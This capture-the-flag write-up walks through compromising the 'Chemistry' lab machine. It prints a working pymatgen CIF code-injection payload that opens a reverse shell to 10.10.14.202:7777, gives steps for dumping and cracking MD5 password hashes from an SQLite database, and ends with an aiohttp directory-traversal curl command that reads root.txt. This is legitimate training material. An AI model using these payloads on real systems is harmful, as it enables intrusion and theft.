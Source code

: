 # Chemistry (Linux)

Target IP Address 10.10.11.38

ran `nmap -sVC 10.10.11.38`

## Results (from nmap)
Two open port numbers:
1. 22 (SSH)
2. 5000 (HTTP)

## 5000 (HTTP)
From the very beginning we see a web page that displays
> Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.
with Login and Register buttons, both have a directory/path that it takes you to. 

Tried to use username, password to login and no luck. 

Inspected the webpage and looked at the source code for anything useful.
Went over to storage and foudn that under cookies that have left a session key, xss attack?

Before that, I wanted to try and see what the register button does; put in a username and a password and it register you right away. 
We can instantly see that it allows us to upload a CIF file. 

## CIF exploit
Once I saw that we can upload a file that alwaus just means that is a perfect opporunity to try and exploit it.
Googled "CIF file exploit" and came acroos this [GitHub](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

**Let's rememeber the fact that the webpage when we register also gave an CIF example file to download (An example is available here) with a link that downloads the file**

From the code that we found in this github link; we can use this to insert it into our CIF example file. 
1. The .cif file is supposed to store crystallographic data for molecular structures.
2. Instead of purely scientific data, it injects Python code through the os.system() function.
3. `"__builtins__.__import__('os').system('/bin/bash -c \"sh -i >& /dev/tcp/youripaddress/portlisternernumber 0>&1\"')"` 

THE FINAL .cif WILL LOOK LIKE THIS

`data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

 _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.202/7777 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

`

Once all this is done we can go ahead an upload our .cif file.
Start a Netcat listener (make sure the port number is all the same) `nc -lvnp 7777`.
Click on view and this will trigger the reverse shell, establashing a connection back to our ip address. 

From here you want to look/search for anything useful. 
`ls -la` lists all files and directories (including hidden ones) in long format, showing detailed permissions, ownership, size, and modification time.

Notice a directory "instance"; `cd` into it and then we do the same as we did just now. `ls -la` and look for anything useful.
We come across database.db
Use `sqlite3 database.db`
`.tables` built-in SQLite command
`SELECT * FROM user;`
List of user names and MD5 hashed passwords will display.
[Crack MD5 hash passwords] (https://crackstation.net/)

I tried admin and the one after and did not work until I got to rosa and cracked the password.

## SSH
`ssh rosa@10.10.10.28`
Login with the password we just cracked.
Look for the user.txt flag

Once you found that we want to get more information from this machine and see what we find.
`cd ..` We see an app directory 
Able to notice that it is running a python application. 
Was not able to use `cat` on the .py file and could not get into the other directories.
We know it is running a python app so most likely in the development stages.
`curl localhost:8080 --head` Here we can see that it is running **aiohttp/3.9.1**; begin searching for known exploits related to this version.
Using the curl command we got from [here] (https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0), we will be able to run the exploit. 
Since all we are looking for is root.txt we add that into the command `curl -s --path-as-is "http://localhost:8081/static/../../../../../root/root.txt"`
404 is what is returned when running this command. /static does not exist so we for sure have to look for a path that does. 
If we `curl -s localhost:8080` and take a look at the code; we find that there is a directory/path called **assets**. Add it into the curl command and root.txt will display right under.


Simple solid CTF to start again after a long break; with great power comes great responsibility, stay ethical.

The target machine (10.10.11.38) has two open ports: SSH (22) and HTTP (5000). The web page allows users to upload CIF files. Exploiting this, a malicious Python code was injected into a CIF file to create a reverse shell. After uploading the file, a netcat listener on port 7777 established a connection, allowing access to the machine.

In the "instance" directory, an SQLite database was found, revealing user data with MD5 hashed passwords. After cracking the password for "rosa," SSH was accessed, and further exploration led to the discovery of a Python application running on port 8080. A known exploit in the aiohttp version (3.9.1) was used to retrieve the root.txt flag.


